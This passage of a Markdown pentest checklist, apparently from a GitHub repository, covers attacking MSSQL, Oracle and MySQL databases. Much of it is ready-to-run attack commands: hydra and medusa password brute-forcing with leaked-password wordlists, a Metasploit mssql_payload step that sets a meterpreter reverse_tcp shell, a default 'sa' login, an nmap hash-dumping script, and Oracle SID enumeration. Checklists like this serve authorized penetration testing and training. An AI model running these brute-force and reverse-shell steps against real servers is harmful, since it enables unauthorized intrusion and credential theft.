 	hydra -l <USERNAME> -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt $IP -s <PORT> -t 5 mssql
	hydra -s <PORT> -C ./wordlists/mssql-default-userpass.txt -u -f $IP mssql
	medusa -h $IP -M mssql -u sa -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -e ns -F -t 5
	```
- [ ] Gain shell using gathered credentials
	```bash
	# using msf
	msf > use exploit/windows/mssql/mssql_payload
	msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
	```
- [ ] Log in to a MSSQL Server
	```bash
	sqsh -S $IP -U sa -P password -D db_name
	```
- [ ] Any known vulnerability?
	- [ ] Check https://www.exploit-db.com/
	- [ ] Check https://www.cvedetails.com/
	- [ ] Check https://nvd.nist.gov/
	- [ ] Check on google
		```bash
		site:github.com *Service version.release*
		```
	- [ ] Check with nmap
		```bash
		nmap -vv -sV -Pn -p \<PORT\> --script=ms-sql-info,ms-sql-config,ms-sql-dump-hashes --script-args=mssql.instance-port=%s,smsql.username-sa,mssql.password-sa $IP
		```
### Oracle (TCP 1521)
-  [ ] Default credentials
	```bash
	hydra -s <PORT> -C ./wordlists/oracle-default-userpass.txt -u -f $IP
	```
- [ ] tnscmd10g version -h $IP
- [ ] tnscmd10g status -h $IP
- [ ] **oracle-version** \- MSF module which scans Oracle DB to find the version
	```bash
	# using msf
	msfcli auxiliary/scanner/oracle/tnslsnr\_version rhosts=$IP E
	```
- [ ] **oracle-sid** \- MSF module to enumerate the Oracle DB SID
	```bash
	# using msf
	msfcli auxiliary/scanner/oracle/sid\_enum rhosts=$IP E
	```
- [ ] Any known vulnerability?
	- [ ] Check https://www.exploit-db.com/
	- [ ] Check https://www.cvedetails.com/
	- [ ] Check https://nvd.nist.gov/
	- [ ] Check on google
		```bash
		site:github.com *Service version.release*
		```
### MySQL (TCP 3306)
- [ ] Default credentials?
	```bash
	hydra -s <PORT> -C usr/share/wordlists/mysql-default-userpass.txt -u -f $IP mysql

[vulnscan.nse]: https://github.com/scipag/vulscan
[http://pentestmonkey.net/tools/user-enumeration/finger-user-enum]: http://pentestmonkey.net/tools/user-enumeration/finger-user-enum
[https://www.exploit-db.com/exploits/34900]: https://www.exploit-db.com/exploits/34900
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
[Owasp code injection]: https://owasp.org/www-community/attacks/Code_Injection